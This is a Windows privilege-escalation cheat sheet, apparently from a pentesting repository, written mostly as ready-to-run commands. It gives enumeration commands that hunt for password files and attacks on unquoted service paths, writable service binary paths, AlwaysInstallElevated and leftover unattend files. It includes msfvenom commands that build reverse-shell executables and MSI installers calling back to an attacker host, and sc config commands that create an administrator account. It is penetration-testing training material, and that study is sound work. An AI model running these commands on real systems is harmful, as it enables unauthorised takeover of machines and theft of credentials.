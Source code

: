 # Privilege escalation: Windows

If you started hacking on Linux, Windows can be frustrating and weird. But that's what most networks are running, from desktops to domain controllers. So you just have to get used to it.

## Gathering system information

These commands can be issued remotely using a cmd.exe shell.

### System information

```text
systeminfo
```

### OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### Active network connections

```text
netstat -ano
```

### Firewall settings

```text
netsh firewall show state
netsh firewall show config
```

### Scheduled tasks

```text
schtasks /query /fo LIST /v
```

### Running processes

Running processes linked to services:

```text
tasklist /SVC
```

Running services:

```text
net start
```

### Installed drivers

```text
DRIVERQUERY
```

### Installed patches

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Interesting files
Search for files that contain ‘password’ in the filename:

```text
dir /s *password*
```

Search for the keyword ‘password’ in files with the .txt extension:

```text
findstr /si password *.txt
```

## Unquoted service path

This is a common vulnerability for installed programs that don't put quotes around the file path to the executable:

```text
C:\Program Files\Some Software\Software.exe     #unquoted

"C:\Program Files\Some Software\Software.exe"
```

When Windows tries to locate the program, it guesses and tries to execute any word before a space. For example, in the unquoted service path above, Windows will try:

```text
C:\Program.exe

C:\Program Files\Some.exe

C:\Program Files\Some Software\Software.exe
```

An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If this returns a an unquoted service path, use ICACLS to check permissions on each directory in the path:
```
icacls "C:\Program Files\Some Software\"
```
If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions ('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit (assuming there is no antivirus, haha):
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f exe -o servicename.exe
```
Then restart the service:
```
sc stop [service name]

sc start [service name]
```
If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: `exploit/windows/local/trusted_service_path`

## Modifying binary service path
Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory. 

Windows has a tool called named accesschk.exe which checks permissions. To display services which can be modified by an authenticated user:
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
A service with write permissions for an authenticated user looks like this:
```
RW [service name] SERVICE_ALL_ACCESS
```
Show the service properties:
```
sc qc [service name]
```
This is where you can find out the `BINARY_PATH_NAME` value. Change the binary path on a particular service:
```
sc config [service name] binpath= "malicious executable path"
sc stop [service name]
sc start [service name]
```
You can also add a new user and grant administrator rights using the binary path:
```
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```
Again, if you're super lazy here's a Metasploit Module: ```exploit/windows/local/service_permissions```

## AlwaysInstallElevated setting
Windows registry has a setting that allows non-privileged users to install Microsoft Windows Installer Package Files (MSI) with elevated system permissions. There are 2 registry entries which have to be set to `1` to enable this setting.

Check the values of the registry keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If AlwaysInstallElevated is enabled in the registry entries you can create an installer payload with `msfvenom` (again assuming there is no antivirus):
```
msfvenom -p windows/adduser USER=admin PASS=password -f msi –o filename.msi
```
Generate a payload with a reverse shell:
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f msi -o filename.msi
```
Then use the following command to execute the msi installer file:
```
msiexec /quiet /qn /i C:\Users\filename.msi
```
A summary of these flags:

* `/quiet` will bypass User Account Control (UAC)
* `/qn` specifies not to use a GUI
* `/i` is to perform a regular installation of the package

For the lazy, here's a Metasploit module: `exploit/windows/local/always_install_elevated`

## Unattended Installs
Unattended Installs allows administrators to deploy Windows in a hands-off way. However, if they don't clean up after this process, an XML file called Unattend is left on the local system, full of configuration settings and possibly local account configurations (e.g. Administrators). 

Unattend files are often found in these folders:

```
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
```
Common filenames:
```
unattend.xml
sysprep.xml
sysprep.inf
```
Passwords in these files may be base64 encoded, [decode them here](https://gchq.github.io/CyberChef/) or in [Burp Decoder](http://www.hackingarticles.in/burpsuite-encoder-decoder-tutorial/).

And if you're lazy, a Metasploit module: `post/windows/gather/enum_unattend`
